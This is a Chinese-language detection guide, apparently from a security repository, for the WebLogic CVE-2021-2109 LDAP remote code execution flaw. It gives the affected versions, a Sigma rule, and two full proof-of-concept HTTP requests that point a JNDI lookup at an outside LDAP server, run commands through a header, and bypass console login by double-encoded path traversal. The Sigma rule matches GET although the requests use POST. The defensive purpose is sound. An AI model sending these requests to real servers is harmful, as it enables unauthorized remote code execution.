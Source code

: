 # T1190-CVE-2021-2109_Weblogic_LDAP_远程代码执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

### 0x1 影响版本

```yml
WebLogic Server 10.3.6.0.0

WebLogic Server 12.1.3.0.0

WebLogic Server 12.2.1.3.0

WebLogic Server 12.2.1.4.0

WebLogic Server 14.1.1.0.0
```

### 0x2 漏洞详情

可参考：

Weblogic LDAP 远程代码执行漏洞 CVE-2021-210：<https://blog.csdn.net/m0_46257936/article/details/112984836>

【漏洞复现系列】超详细复现过程_CVE-2021-2109_Weblogic Server远程代码执行漏洞复现_JDK版本对比：<https://www.cnblogs.com/huaflwr/p/14317388.html>

## 检测日志

HTTP.log，主要是基于POC报文进行检测，POC如下：

```yml
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.122;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.122.9:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
cmd:whoami
Cookie:  ADMINCONSOLESESSION=8xUkHS93pNBdw9iRlb1XOoH5Iy5qm65NmKad54eCEtDI2PErEIXy!-181493417
Connection: close


配合未授权访问后台

POST /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.122;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.122.9:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
cmd:pwd
Cookie:  ADMINCONSOLESESSION=8xUkHS93pNBdw9iRlb1XOoH5Iy5qm65NmKad54eCEtDI2PErEIXy!-181493417
Connection: close
```

## 测试复现

可参考漏洞详情部分

## 检测规则/思路

### sigma规则

```yml
title: Oracle WebLogic CVE-2021-2109 HTTP协议远程代码执行漏洞检测
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://blog.csdn.net/m0_46257936/article/details/112984836
    - https://www.cnblogs.com/Yang34/archive/2004/01/13/14327495.html
logsource:
    category: webserver #日志源：webserver
detection:
    selection:
        cs-method: 'GET' #请求方法为GET
        c-uri|contains|all: #请求url中包含以下任意内容
            - 'com.bea.console.handles.JndiBindingHandle'
            - 'ldap://'
            - 'AdminServer'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: #误报情况 未知
    - Unknown
level: critical
tags:
    - attack.t1190
    - attack.initial_access
    - cve.2021-2109
```

### 建议

建议使用HTTP流量+安全设备(天眼)进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

<https://blog.csdn.net/m0_46257936/article/details/112984836>

【漏洞复现系列】超详细复现过程_CVE-2021-2109_Weblogic Server远程代码执行漏洞复现_JDK版本对比

<https://www.cnblogs.com/huaflwr/p/14317388.html>

CVE-2021-2109 Weblogic Server远程代码执行

<https://www.cnblogs.com/Yang34/archive/2004/01/13/14327495.html>